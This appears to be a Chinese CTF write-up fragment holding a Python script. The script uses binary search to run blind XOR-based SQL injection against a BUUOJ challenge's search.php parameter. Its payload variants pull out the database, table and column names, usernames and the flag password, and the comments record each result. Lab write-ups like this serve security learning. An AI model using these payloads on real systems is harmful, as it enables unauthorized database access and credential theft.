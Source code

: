 写个脚本(找个二分法脚本+上payload嘻嘻)

```python
import time
import requests
# 这里没有requests.get的data参数，我一用就报错--，可能是我格式问题，就直接url?id=了
url = "http://24a3f947-2d35-4077-80f1-6dd9d794bb8f.node4.buuoj.cn/search.php?id="
flag = ""
i = 0
while True:
    i += 1
    low = 32
    high = 128
    mid = (low + high) // 2
    while low < high:
        print(low, high, mid)
        time.sleep(0.1)

        # 数据库 (geek)
        # payload = "1^(ascii(substr(database(),%d,1))>%d)^1" % (i, mid)
        
        # 爆表 (F1naI1y,Flaaaaag)
        # payload = "1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d)^1" % (i, mid)
        
        # 爆字段 (id,username,password)
        # payload = "1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1" % (i, mid)
        
        # 爆flag之username（mygod,welcome,site,site,site,site,Syc,finally,flag）
        payload = "1^(ascii(substr((select(group_concat(username))from(F1naI1y)),%d,1))>%d)^1" % (i, mid)
       
        # 爆flag（限定为username为flag然后爆破）
        # payload = "1^(ascii(substr((select(password)from(F1naI1y)where(username='flag')),%d,1))>%d)^1" % (i, mid)
        
        r = requests.get(url+payload)
        if 'Click' in r.text:
            low = mid + 1
            mid = (low + high) // 2
        else:
            high = mid
            mid = (low + high) // 2

    flag += chr(mid)
    print(flag)
    if low == 32:
        break
```


